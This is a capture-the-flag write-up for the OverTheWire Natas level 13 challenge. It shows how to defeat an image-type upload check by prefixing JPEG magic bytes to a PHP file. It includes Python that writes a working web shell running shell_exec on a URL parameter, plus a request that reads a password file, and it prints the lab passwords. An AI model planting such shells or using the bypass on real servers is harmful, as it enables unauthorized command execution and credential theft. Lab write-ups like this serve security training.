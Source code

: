 # Natas Level 13 → Level 14
<pre><h3><b>Level 13
Username : natas13
Password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
URL      : http://natas13.natas.labs.overthewire.org</b></h3></pre>
### Solution

To solve this level, we first log into the natas13 application using the credentials provided above.

The application looks very similar to the previous level, however, the application this time around is checking for the filetype with the **exif_imagetype** function. According to the PHP [manual](http://php.net/manual/en/function.exif-imagetype.php), the exif_imagetype function determines the type of an image by reading the first bytes of an image and checking its signature.

As the function relies on the first bytes of image and checking its signature, if we can create a file and use the same **magic numbers** that the function is expecting, we should be able to bypass the check. A quick Wikipedia [search](https://en.wikipedia.org/wiki/List_of_file_signatures) yields **0xFF 0xD8 0xFF 0xE8** as the magic. Therefore, we create a new php file with the magic numbers in the beginning. I used python to create the following shell file. Apart from the first 4 bytes, the rest of the file is exactly the same as before.

```
  >> shell=open('shell.php','w')
  >>> shell.write('\xFF\xD8\xFF\xE0' + '<?php $output = shell_exec($_GET["cmd"]); echo "<pre>$output</pre>"; ?>')
  >>> shell.close()
```

Once again, we upload this php file by intercepting the request in Burp and changing the name of the file with a .php extension. Navigate to the URL generated by the application and append **?cmd=cat%20/etc/natas_webpass/natas14** and the application prints the password for the next level.
<pre><h3><b>Level 14
Username : natas14
Password : Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
URL      : http://natas14.natas.labs.overthewire.org</b></h3></pre>
